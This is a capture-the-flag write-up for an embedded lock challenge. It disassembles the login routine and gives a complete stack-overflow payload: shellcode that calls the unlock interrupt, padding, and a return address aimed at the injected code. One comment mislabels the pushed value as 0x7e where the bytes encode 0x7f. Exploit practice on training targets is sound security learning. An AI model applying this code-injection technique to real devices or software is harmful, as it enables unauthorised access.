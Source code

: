 ## Challenge Overview
```
OVERVIEW

    - This lock is attached the the LockIT Pro HSM-2.
    - We have updated  the lock firmware to connect with this hardware
      security module.
```

Running the program
```
Enter the password to continue.
Remember: passwords are between 8 and 16 characters.
> password
That password is not correct.
```

## Solution

Looking at the assembly:
```
44f4 <login>
44f4:  3150 f0ff      add	#0xfff0, sp
44f8:  3f40 7044      mov	#0x4470 "Enter the password to continue.", r15
44fc:  b012 9645      call	#0x4596 <puts>
4500:  3f40 9044      mov	#0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504:  b012 9645      call	#0x4596 <puts>
4508:  3e40 3000      mov	#0x30, r14
450c:  0f41           mov	sp, r15
450e:  b012 8645      call	#0x4586 <getsn>
4512:  0f41           mov	sp, r15
4514:  b012 4644      call	#0x4446 <conditional_unlock_door>
4518:  0f93           tst	r15
451a:  0324           jz	$+0x8 <login+0x2e>
451c:  3f40 c544      mov	#0x44c5 "Access granted.", r15
4520:  023c           jmp	$+0x6 <login+0x32>
4522:  3f40 d544      mov	#0x44d5 "That password is not correct.", r15
4526:  b012 9645      call	#0x4596 <puts>
452a:  3150 1000      add	#0x10, sp
452e:  3041           ret
---
4446 <conditional_unlock_door>
4446:  0412           push	r4
4448:  0441           mov	sp, r4
444a:  2453           incd	r4
444c:  2183           decd	sp
444e:  c443 fcff      mov.b	#0x0, -0x4(r4)
4452:  3e40 fcff      mov	#0xfffc, r14
4456:  0e54           add	r4, r14
4458:  0e12           push	r14
445a:  0f12           push	r15
445c:  3012 7e00      push	#0x7e
4460:  b012 3245      call	#0x4532 <INT>
4464:  5f44 fcff      mov.b	-0x4(r4), r15
4468:  8f11           sxt	r15
446a:  3152           add	#0x8, sp
446c:  3441           pop	r4
446e:  3041           ret
```

This is very similar to Cusco but instead of jumping to the function and passing 0x7f into the INT call we have to write the shellcode ourselves and jump to it.

| shellcode | padding | start_of_shellcode |

```
445c:  3012 7f00      push	#0x7e
4460:  b012 3245      call	#0x4532 <INT>
---
30127f00b0123245
```

and the buffer is written to `0x327e`.
```
30127f00b012324541414141414141417e32
```

This works!

Fun little challenge on writing basic shellcode.